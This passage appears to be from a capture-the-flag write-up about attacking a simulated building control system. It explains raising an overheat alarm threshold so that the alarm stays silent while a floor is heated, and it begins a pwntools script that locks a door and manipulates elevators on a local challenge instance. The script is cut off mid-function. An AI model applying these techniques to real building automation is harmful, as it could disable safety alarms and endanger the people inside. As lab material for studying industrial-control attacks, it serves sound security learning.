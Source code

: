 These are the object responsible for the temperature in level 2, the Temp-L2-20 is of type analogInput which mean it can be a sensor, the Therm-L2-21 is analogOutput and the name tell its defenatly the thermostats, we can use the thermostats to control the temperature in the level by set a SetPoint for the heat which the thermostat will do actions to make the temperature equal to the SetPoint.

But before we increase the temperature there are two objects we need to look at.

```json
"OHAP-L2-23": {
    "ObjectName": "OHAP-L2-23",
    "ObjectID": 23,
    "ObjectType": "analogOutput",
    "Description": "Over Heat Alarm Point , FL-2 , 25°C",
    "presentValue": 25
  },
  "OHA-L2-24": {
    "ObjectName": "OHA-L2-24",
    "ObjectID": 24,
    "ObjectType": "binaryInput",
    "Description": "[0: ALARM OFF , 1: ALARM ON]",
    "presentValue": 0
  },
```

As the descriptions tell, these objects are used to control the Alarm logic. 
OHA-L2-24 is just a binaryInput that control the state of the alarm if its on or off, as it's an Input object type we can't control it, but there is OHAP-L2-23 object, its presentValue was set to 25 and the description tell use that it's the point where the alarm arises.

The OHAP-L2-23 object is and Output type object this mean we can control it, if we increased the overheat point for a point more than 32 then the alarm will not arise when we increase the temperature.

3. Step 3: Increase the overheat point for level 2.
4. Step 4: Increase the temperature in level 2.

## Writing the exploitation script.

I will use pwntools library of ease of use. We will create two connections to the instance, one to keep change the elevators level, and the other one to do the rest.

```python
from pwn import *
from threading import Thread
from random import choice

HOST = "0" ; PORT = 1337

io = remote(HOST, PORT)
ele_io = remote(HOST, PORT)


door = ["multiStateOutput", "102"]

ele1 = ["analogOutput", "82"]
ele2 = ["analogOutput", "85"]

therm = ["analogOutput", "21"]
ovhp = ["analogOutput", "23"]

def LockDoor():
    global io, door

    payload = f"{door[0]} {door[1]} presentValue 2"

    io.sendline(b"3")
    sleep(1)
```